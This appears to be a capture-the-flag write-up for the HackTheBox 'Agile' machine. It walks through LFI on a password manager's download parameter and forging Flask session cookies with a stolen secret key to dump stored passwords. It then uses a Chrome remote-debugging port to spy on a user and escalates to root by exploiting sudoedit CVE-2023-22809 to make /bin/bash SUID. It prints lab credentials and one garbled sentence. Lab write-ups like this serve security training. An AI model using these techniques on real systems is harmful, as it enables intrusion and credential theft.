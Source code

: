 # Agile

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:31 EST
Nmap scan report for 10.129.172.106
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We need to add `superpass.htb` to our `/etc/hosts` file to access port 80.

### SuperPassword --> LFI

The website advertised a password manager.

<figure><img src="../../.gitbook/assets/image (3117).png" alt=""><figcaption></figcaption></figure>

I tested by registering a user to see what functionalities this application has. I registed a username and got an error, revealing that this is a Flask application. Not sure if this was supposed to happen

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

Anyways, when I tried again it worked and brought me to a dashboard where I can add a password and Export passwords.

<figure><img src="../../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

The Export function looks rather exploitable. I added some passwords, then tried to download the file and was presented with this HTTP request:

```http
GET /download?fn=newuser_export_611199da8a.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f; session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU
Upgrade-Insecure-Requests: 1
```

The `fn` paramete was vulnerable to LFI.

<figure><img src="../../.gitbook/assets/image (833).png" alt=""><figcaption></figcaption></figure>

We find 4 users, `runner`, `corum`, `edwards`, and `dev_admin`. We know that this is a Flask application, so the source code for `app.py` is probably in some `/app/app/main` directory or something along those lines.  Some testing revealed that it was located in `../app/app/superpass/app.py`.

We can grab the SECRET\_KEY variable from here and be able to spoof our own cookies using `flask-unsign`.

```
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

### Cookie Spoofing --> SSH Creds

Now that we have the SECRET\_KEY, we can decrypt the cookie.

{% code overflow="wrap" %}
```
$ flask-unsign --decode --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU' --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
{% endcode %}

Now, we can change the `_user_id` parameter and hopefully login as other users with stored passwords. We can keep changing the user ID to anything we want and keep getting different passwords. Here are some interesting ones:

```html
<td>hackthebox.com</td>
    <td>0xdf</td>
    <td>762b430d32eea2f12970</td>
<td>mgoblog.com</td>
    <td>0xdf</td>
    <td>5b133f7a6a1c180646cb</td>
<td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
```

That last one for `corum` is a valid password for SSH.

<figure><img src="../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

Then we can easily grab the user flag.

## Privilege Escalation

### Chrome Debugging --> Edwards

I ran a LinPEAS scan and thsi was the one thing that stood out the most:

{% code overflow="wrap" %}
```
runner      3486  0.1  2.5 34023392 103408 ?     Sl   14:49   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.MLKYLq --window-size=1420,1080 data:
```
{% endcode %}

It would appear that there is a --remote-debugging-port being used. Essentially, it means that this port is open and running Chrome. With credentials for SSH, we can port forward this and perhaps access it from our machine to see what the user is doing.

So we can first port forward this thing using `ssh`.

```bash
ssh -L 41829:127.0.0.1:41829 corum@superpass.htb
```

Afterwards, we can use Burpsuite's Chromium browser (that is in-built) to access this thing. This resource was rather helpful:

{% embed url="https://developers.google.com/cast/docs/debugging/remote_debugger" %}

Just add `localhost:41829` to the Discover Network Targets portion, and we will pick up on the target.

<figure><img src="../../.gitbook/assets/image (1838).png" alt=""><figcaption></figcaption></figure>

We can inspect this to basically spy on the user.&#x20;

<figure><img src="../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>

I visited the `/vault` directory and found some secret credentials.

<figure><img src="../../.gitbook/assets/image (2851).png" alt=""><figcaption></figcaption></figure>

Then, we can `su` to `edwards`.

### Sudoedit CVE-2023-22809

Checking `edwards` `sudo` privileges, we see this:

```bash
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

In short, we edit some files as `dev_admin`. I read files and found some credentials

{% code overflow="wrap" %}
```
# creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
# config_test.json
"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
```
{% endcode %}

However, the credentials here lead to dead ends, with the SQL database having nothing of interest. I ran a `pspy64` to see if there were any exploitable processes. This one line looked rather suspicious because `dev_admin` had write access to it:

{% code overflow="wrap" %}
```
2023/03/06 15:16:01 CMD: UID=0    PID=37141  | /bin/bash -c source /app/venv/bin/activate 

edwards@agile:/tmp$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  6 15:15 /app/venv/bin/activate
```
{% endcode %}

Checking the `sudo` version online, I found that it was vulnerable to CVE-2023-22809.

In short, this exploit allows us to write in **any file we want** using `sudoedit` despite the restrictions we have in place. The `activate` file I found earlier was a `bash` script being executed by root. So, all we need to do is append some commands to it to make `/bin/bash` an SUID binary.

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

Following the PoC, we just /app/venv/bin/activateave to execute these commands:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

This opens up the `activate` file and we are free to edit it. We can add `chmod u+s /bin/bash` into it. Then we can easily become `root`.

<figure><img src="../../.gitbook/assets/image (565).png" alt=""><figcaption></figcaption></figure>
